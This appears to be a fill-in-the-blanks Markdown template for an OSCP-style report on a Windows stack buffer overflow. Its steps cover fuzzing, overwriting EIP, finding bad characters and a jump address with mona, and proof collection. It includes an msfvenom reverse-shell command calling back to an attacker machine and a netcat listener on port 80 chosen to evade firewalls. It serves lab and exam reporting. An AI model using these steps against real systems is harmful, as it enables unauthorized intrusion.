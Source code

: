 
## System: 192.168.x.x - Hostname

Offensive Security provided an application for black box review.  The application was running on a production server 192.168.x.x and a test system.  The test system was used to determine if buffer overflow existed in the application code.

The application was running on a test proof of concept (PoC) and production server as indicated in the scope below.  The test system was used to determine if a buffer overflow existed in the application code prior to attempting any direct exploitation of the production server.

### Scope

The IP address for the target(s) were provided by the client as documented here.  All buffer overflow penetration testing will operate only on the following system scope.

Server IP Address | Ports Open | Service | Application
----|----|----|----
192.168.x.y (Test) | **TCP**: 1337 | TBD | TBD.exe
192.168.x.z (Production) | **TCP**: 1337 | TBD | TBD.exe

### Vulnerability Exploited: buffer overflow

#### 1. Fuzzing

The command detected by manually probing the service is "SOMETHING".  Fuzzing the service crashes when sending between LOW and HIGH bytes but this is a possible range as the crash may have occurred earlier.

---

```Bash
# Output from fuzzing script
```

---

Identification of a buffer overflow by causing a crash is one thing but In order to progress the damage from loss of availability to exploitation the exact byte causing the overflow is needed.  To find this value a unique string of characters is sent to the service and the EIP at crash evaluated for the exact for characters.  The EIP contains ADDRESS which occurs at byte **NUMBER**.

#### 2. Control the EIP

To control the EIP line X of the script was modified to have an offset equal to the overflow byte NUMBER.

> Be sure to escape all byte characters or it will prevent the PDF report from generating with autorpt.

---

```Python
18: offset = NUMBER
19: overflow = "A" * offset
20: retn = "ZZZZ"
...
26: buffer = prefix + overflow + retn
```

---

Upon the next exploit attempt Immunity shows the intended four "ZZZZ" characters in the EIP validating attacker control.

#### 4. Find Bad Characters

> Be sure to escape all byte characters or it will prevent the PDF report from generating with autorpt.

Some bytes will corrupt subsequent bytes.  To prevent this from affecting the exploit I followed a process cycle to identify bad characters.  

To accomplish this process was followed.
Set mona working directory:

```
!mona config -set workingfolder c:\mona\%p
```

Create the bytearray with a single default null byte as the only bad character.

```
!mona bytearray -b "\x00"
```
Update the payload to include a bytearray of every character from \\x01 to \\xff.  Send the payload.  Check the ESP register with the following mona command:

```
!mona compare -f c:\mona\oscp\bytearray.bin -a ESP_REGISTER
```
Mona memory comparison results show \\a0 for corrupt characters in the table listing.  Visual inspection of the dump aligns with mona.py.  In the case of COMMAND the bad characters are: "\\x00...".

#### 5. Find the Right Module

I ran the mona command to locate an appropriate jump point and selected DLL_NAME as it has no protections.  I selected the return address "ADDRESS".

> Be sure to escape all byte characters or it will prevent the PDF report from generating with autorpt.

```Bash
!mona jmp -r esp -cpb "\\x00..."
```

#### 6. Generate Shellcode & Gain Test Shell

Closing the circle on the proof of concept system involves attaining an internactive shell on the target system.  

---


```Bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALILINUX LPORT=80 EXITFUNC=thread -b "\\x00..." -f c
```

---


Setup a netcat listener on TCP port 80 to evade the firewall on the target server.

---


```Bash
sudo nc -nvlp 80
```

---


Run the exploit.  An interactive shell to the proof of concept server is established.

---

```Bash
sh runmescripto.sh
```

---

#### 7. Exploit Production Target

With a complete proof of concept buffer overflow leading to interactive shell I repeated the shellcode creation step for the target production server.

---


```Bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALILINUX LPORT=80 EXITFUNC=thread -b "\\x00..." -f c
```

---


Setup a netcat listener on TCP port 80 to evade target system firewall.

---


```Bash
sudo nc -nvlp 80
```

---


Run the exploit.  An interactive shell to the production server is established.

---


```Bash
ipconfig
type "c:\Documents and Settings\Administrator\Desktop\proof.txt"
```

---


> Delete this note and the OS output not needed for evidence.

**Linux**

---

```Bash
cat /root/proof.txt
ip addr show

# Check for local.txt
find / -type f -name local.txt
cat local.txt
```

---

**Windows**

---

```Powershell
type "c:\Documents and Settings\Administrator\Desktop\proof.txt"
ipconfig

REM Check for local.txt
cd \
dir /s local.txt
type local.txt
```

---

#### Proof.txt

**Screenshot**

Screenshot must show proof.txt contents with `cat` or `type` command and output from `ipconfig` or `ip`.  Additionally, search the system for local.txt to cover all bases.  

![Alt text](images/placeholder-image-300x225.png "title"){ width=50%}

**Contents**

Screenshot must show 

\pagebreak

### Completed Buffer Overflow Code

```Python
#!/usr/bin/python3
#
#     REPLACE ME WITH YOUR ACTUAL CODE !!!

import os, sys

print("REPLACE ME WITH YOUR ACTUAL CODE")
```

